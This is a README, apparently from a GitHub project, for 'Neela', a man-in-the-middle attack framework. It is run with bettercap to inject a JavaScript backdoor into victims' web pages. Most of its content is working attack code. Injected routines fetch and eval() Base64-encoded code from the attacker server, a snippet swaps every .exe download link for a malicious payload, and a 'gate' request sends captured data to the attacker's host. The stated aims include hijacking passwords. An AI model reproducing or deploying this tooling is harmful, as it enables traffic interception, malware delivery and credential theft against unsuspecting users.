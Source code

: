 <p align="center">
<img  src ="https://s31.postimg.org/4s7r3ng0r/Neela_logo01_d.png" height="200" />
</p>
<br />


###### Resume:

Neela, MITM extension tools can execute a routine.

A routine is execution of multiple steps, for hijack download binary... hijack account password ... and more.

###### Require:
    - express
    - body-parser
    - colors
    - cookie-parser
    - cookie-session
    - dns
    - ent
    - express-session
    - ip
    - socket.io
    - os
    - request-ip

![Neela LAN](https://s31.postimg.org/40czeg3zv/home.png)

##### Start server

```javascript
node neela.js
```

![Neela](https://s31.postimg.org/46463yy8b/Capture_d_e_cran_2016_07_07_a_16_27_26.png)

##### Hacking with bettercap

```
--proxy-module injectjs --js-url "http://SERV_IP:3000/backdoor"
```

![bettercap with Neela](https://s32.postimg.org/duji0l405/Capture_d_e_cran_2016_07_07_a_16_25_50.png)

##### Make Routine & Hack !
* Create folder on /exploit/routine
Create info file

```javascript
{
  "name": "Name routine",
  "step":[
      {"name":"step1.neela"},
      {"name":"step2.neela"}
      ]
  ,
  "author": "Author"
}

```

* Create step file exemple:
  - step1.neela

  ```javascript
    alert('My first routine');
  ```

* set neela environement

```javascript
var serveur_neela = '10.34.2.139'; // Serv ip.
var step_neela = 0; // step 0=1 1=2 ...
var routine_name = 'Routine_folder_name';
```

* Update end function

```javascript
function end_neela(){

	console.log('ok end');
	var req = new XMLHttpRequest();
	req.open('GET', 'http://'+serveur_neela+':3000/next/'+step_neela+'/'+routine_name, true);
	req.onreadystatechange = function() {
    if (req.readyState == XMLHttpRequest.DONE) {
        eval(Base64.decode(req.responseText));
    }
}
	req.send(null);
}
```

* Get next step

```javascript
end_neela();
```



```javascript
if(document.getElementsByTagName('a') !== undefined){
  var list = document.getElementsByTagName('a');
  for(var x = 0;x < list.length;x++){
    console.log(list[x].href);
    var current = list[x].href;
    if(current.indexOf('.exe') > -1){
      list[x].href = 'http://IP_SERVER:3000/payload'
    }
  }
}

```

##### Gate receipt

```javascript
var req = new XMLHttpRequest();
req.open('GET', 'http://SERV_IP:3000/gate/'+encoded, false);
req.send(null);
```
![Neela](https://s31.postimg.org/wdfic47wr/Capture_d_e_cran_2016_07_07_a_15_32_28.png)

##### Replace download link
- Select replace_exe.neela routine
- Update /exploit/routine/exe/hacked.exe

![Neela replace](https://s31.postimg.org/worb3hngr/Capture_d_e_cran_2016_07_07_a_16_46_56.png)

##### Neela Logs

![Neela logs](https://s31.postimg.org/qgshncf17/logs.png)


reminder, infiltrate, monitor, computer system without authorization is a crime
